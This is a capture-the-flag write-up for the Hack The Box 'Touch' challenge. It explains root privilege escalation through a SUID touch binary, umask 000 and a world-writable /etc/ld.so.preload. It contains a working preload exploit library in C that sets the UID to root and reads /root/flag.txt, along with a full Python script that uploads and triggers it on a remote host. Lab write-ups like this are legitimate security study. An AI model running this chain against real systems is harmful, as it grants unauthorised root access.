

# HTB Touch Challenge: Step-by-Step Exploitation Reference Notes

This document provides a detailed, step-by-step reference for solving the Hack The Box "Touch" challenge. It covers the core vulnerability concepts, manual exploitation steps, advanced hurdles encountered during automation, and their technical mitigations.

---

## 1. Vulnerability Analysis

The challenge centers on three core Linux system behaviors:

### SUID Bit on `touch`
The `touch` binary has the SUID (Set Owner User ID) bit set:
```text
-rwsr-xr-x 1 root root /bin/touch
```
When a program with the SUID bit is executed by any user, it runs with the privileges of the file owner (in this case, `root`).

### Umask Control
When a process creates a file, the default permissions are modified by the process's `umask` (user file-creation mode mask). SUID binaries respect the calling process's `umask`.
- The default `umask` is typically `0022`, resulting in new files having `0644` permissions (read-write for owner, read-only for others).
- By setting `umask 000` prior to running `touch`, any newly created file will have `0666` (read-write for everyone) permissions.

### Dynamic Linker Preloading (`ld.so.preload`)
The Linux dynamic linker (`ld.so`) reads `/etc/ld.so.preload` on startup and preloads the shared libraries listed inside it into the memory space of every executed process. 
- Unlike the `LD_PRELOAD` environment variable, which is ignored for SUID binaries to prevent privilege escalation, the `/etc/ld.so.preload` file is honored for all binaries, including SUID binaries running as `root`.
- If an attacker can write to `/etc/ld.so.preload`, they can inject a custom shared library that will run with `root` privileges whenever any SUID binary is executed.

---

## 2. Exploitation Flow

The following diagram illustrates the complete exploitation chain:



---

## 3. Step-by-Step Manual Exploitation

Follow these steps on a clean instance of the target host.

> [!WARNING]
> If `/etc/ld.so.preload` already exists with `644` permissions, it is locked. The `ctf` user cannot write to it or delete it. You must reset/restart the challenge instance before proceeding.

### Step 1: Create the World-Writable Preload File
Set the umask to `000` and create `/etc/ld.so.preload` using the SUID `touch` binary:
```bash
umask 000
touch /etc/ld.so.preload
```
Verify the permissions and ownership:
```bash
ls -l /etc/ld.so.preload
```
The output must show:
```text
-rw-rw-rw- 1 root root 0 Jun 26 04:46 /etc/ld.so.preload
```

### Step 2: Write and Compile the Exploit Library
Create a C source file containing a constructor function that will run automatically when the library is loaded:
```bash
cat << 'EOF' > /tmp/exploit.c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

void __attribute__((constructor)) init() {
    // 1. Guard against infinite preloading recursion
    if (getenv("EXPLOITED")) {
        return;
    }
    setenv("EXPLOITED", "1", 1);
    
    // 2. Elevate real and effective UIDs/GIDs to root
    setregid(0, 0);
    setreuid(0, 0);
    
    // 3. Read flag using C file I/O (prevents shell privilege dropping)
    FILE *f = fopen("/root/flag.txt", "r");
    if (f) {
        char flag[256];
        if (fgets(flag, sizeof(flag), f)) {
            printf("\n[+] FLAG: %s\n", flag);
        }
        fclose(f);
    }
}
EOF
```
Compile it locally as a shared library:
```bash
gcc -shared -fPIC -Os -s -o /tmp/exploit.so /tmp/exploit.c
rm /tmp/exploit.c
```
*(If the target container does not have `gcc` installed, compile the code on a compatible local Linux host, convert it to base64, and decode it on the target using `base64 -d`.)*

### Step 3: Activate the Preload Library
Write the path of your compiled shared library into the preload configuration file:
```bash
echo "/tmp/exploit.so" > /etc/ld.so.preload
```

### Step 4: Trigger the Exploit
Execute the SUID `touch` binary (or any other command) to trigger the preloader:
```bash
touch
```
This will print the flag.

### Step 5: Clean Up
Clear the preload configuration immediately to restore normal system operations:
```bash
echo "" > /etc/ld.so.preload
```

---

## 4. Advanced Hurdles Faced and Solved

During automated exploitation via Python sockets, several advanced operating system behaviors interfered with the exploit. Here is how they were resolved.

### 1. Terminal Input Buffer Overflow (TTY 4KB Limit)
- **The Problem**: In Linux canonical terminal mode, the tty input buffer is restricted to exactly **4096 bytes (4KB)**. When transmitting a 14KB pre-compiled shared library in a single heredoc (`cat << "EOF"`), the buffer overflowed, dropping characters and corrupting the binary.
- **The Solution**: We split the base64 payload into 64-byte chunks and sent them using sequential `echo` commands (`echo 'CHUNK' >> /tmp/exploit.b64`). Because each `echo` command ended with a newline (`\n`), the shell processed and cleared the tty input buffer immediately, allowing us to transmit files of any size without corruption.

### 2. Infinite Recursion Loop (Container Crash)
- **The Problem**: When the constructor executed `system("cat /root/flag.txt")`, it spawned `/bin/sh`. Because `/etc/ld.so.preload` was active, `/bin/sh` loaded the library and ran `init()` again, which spawned another shell. This caused an infinite loop, exhausting the process limit (PID exhaustion) and crashing the container.
- **The Solution**: We implemented a guard variable check:
  ```c
  if (getenv("EXPLOITED")) return;
  setenv("EXPLOITED", "1", 1);
  ```
  Since the environment variable `EXPLOITED` is inherited by child processes, the spawned shells and commands exited the constructor immediately, preventing recursion.

### 3. Shell Privilege Dropping
- **The Problem**: Modern shells like `bash` and `sh` automatically drop root privileges (changing the effective UID back to the real UID) when executed if they detect that the real UID does not match the effective UID. This caused `system("cat /root/flag.txt")` to run as the unprivileged `ctf` user, resulting in `Permission denied`.
- **The Solution**:
  - We explicitly set both real and effective UIDs/GIDs to root using `setregid(0, 0)` and `setreuid(0, 0)`.
  - We read the flag directly using C standard library file operations (`fopen`/`fgets`) rather than calling `system("cat ...")`. Direct file reading does not spawn external shell processes, completely bypassing all shell privilege-dropping protections.

### 4. Socket Buffer Desynchronization
- **The Problem**: Sending 230 sequential `echo` commands caused the target's interactive shell to echo back the commands and print 230 prompts. Reading the socket using simple timeouts left outdated data in the queue, causing subsequent commands to read leftover buffer data.
- **The Solution**: We implemented a socket flushing function (`drain_socket()`) that read the socket continuously with a short timeout until it threw a timeout exception, guaranteeing a clean buffer before executing the final exploit trigger.

---

## 5. Automated Python Exploitation Script

Below is the complete, self-contained Python script (`solve.py`) used to solve the lab. It compiles the payload locally, handles the target's terminal buffer constraints, flushes the socket, and reads the flag.

```python
import socket
import time
import subprocess
import base64
import os

def solve():
    host = "154.57.164.80"
    port = 31974

    # 1. Write and compile the exploit library locally
    c_code = """#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

void __attribute__((constructor)) init() {
    if (getenv("EXPLOITED")) {
        return;
    }
    setenv("EXPLOITED", "1", 1);
    setregid(0, 0);
    setreuid(0, 0);
    
    FILE *f = fopen("/root/flag.txt", "r");
    if (f) {
        char flag[256];
        if (fgets(flag, sizeof(flag), f)) {
            printf("\\n[+] FLAG_FOUND: %s\\n", flag);
        }
        fclose(f);
    }
}
"""
    local_c = "/tmp/exploit.c"
    local_so = "/tmp/exploit.so"

    print("[*] Compiling exploit library locally...")
    with open(local_c, "w") as f:
        f.write(c_code)

    try:
        subprocess.run(
            ["gcc", "-shared", "-fPIC", "-Os", "-s", "-o", local_so, local_c], 
            check=True, 
            capture_output=True
        )
    except subprocess.CalledProcessError as e:
        print(f"[-] Compilation failed: {e.stderr.decode()}")
        return

    # 2. Read the compiled library and encode to base64
    with open(local_so, "rb") as f:
        so_data = f.read()
    
    so_b64 = base64.b64encode(so_data).decode('utf-8')

    # Clean up local temporary files
    if os.path.exists(local_c):
        os.remove(local_c)
    if os.path.exists(local_so):
        os.remove(local_so)

    # 3. Connect to the target
    print(f"[*] Connecting to {host}:{port}...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(5.0)
    s.connect((host, port))
    
    def drain_socket(timeout=0.5):
        s.settimeout(timeout)
        buffer = ""
        while True:
            try:
                chunk = s.recv(4096).decode('utf-8', errors='ignore')
                if not chunk:
                    break
                buffer += chunk
            except socket.timeout:
                break
        return buffer

    def read_until_prompt(timeout=5.0):
        s.settimeout(timeout)
        buffer = ""
        start_time = time.time()
        while True:
            try:
                chunk = s.recv(1024).decode('utf-8', errors='ignore')
                if not chunk:
                    break
                buffer += chunk
                if buffer.rstrip().endswith("$") or buffer.rstrip().endswith("#") or buffer.rstrip().endswith(">"):
                    break
            except socket.timeout:
                break
            if time.time() - start_time > timeout:
                break
        return buffer

    # Wait for the initial prompt
    read_until_prompt()

    def send_cmd(cmd, wait_prompt=True):
        s.sendall(cmd.encode('utf-8') + b"\n")
        if wait_prompt:
            return read_until_prompt()
        return ""

    # 4. Clear any broken preload configurations
    print("[*] Clearing any corrupt preload configurations...")
    send_cmd('echo "" > /etc/ld.so.preload')

    # 5. Create the world-writable preload file
    print("[*] Creating world-writable preload file...")
    send_cmd('umask 000 && /bin/touch /etc/ld.so.preload')

    # 6. Upload the base64 content using sequential echo commands
    print("[*] Uploading exploit library via sequential echo...")
    chunk_size = 64
    first = True
    for i in range(0, len(so_b64), chunk_size):
        chunk = so_b64[i:i+chunk_size]
        if first:
            cmd = f"echo '{chunk}' > /tmp/exploit.b64"
            first = False
        else:
            cmd = f"echo '{chunk}' >> /tmp/exploit.b64"
        
        s.sendall(cmd.encode('utf-8') + b"\n")
        time.sleep(0.02)
        
    # Flush all echoed lines and prompts from the socket buffer
    print("[*] Flushing socket buffer...")
    drain_socket(timeout=1.5)

    # 7. Decode the base64 file to a shared object library
    print("[*] Decoding exploit library...")
    send_cmd('base64 -d /tmp/exploit.b64 > /tmp/exploit.so')
    send_cmd('rm /tmp/exploit.b64')

    # Verify that the library was created successfully and check its size
    verify_so = send_cmd('ls -l /tmp/exploit.so')
    print(f"[*] Exploit library details:\n{verify_so.strip()}")

    # 8. Inject the library path into /etc/ld.so.preload
    print("[*] Activating preload configuration...")
    send_cmd('echo "/tmp/exploit.so" > /etc/ld.so.preload')

    # Verify preload file contents
    verify_preload = send_cmd('cat /etc/ld.so.preload')
    print(f"[*] Preload file contents:\n{verify_preload.strip()}")

    # 9. Trigger the exploit and retrieve the flag
    print("[*] Triggering exploit and reading flag...")
    result = send_cmd('/bin/touch', wait_prompt=True)
    print("\n[+] Exploitation output:")
    print(result.strip())

    # 10. Clean up the preload configuration
    print("[*] Cleaning up preload configuration...")
    send_cmd('echo "" > /etc/ld.so.preload')

    s.close()
    print("[*] Done.")

if __name__ == "__main__":
    solve()
```
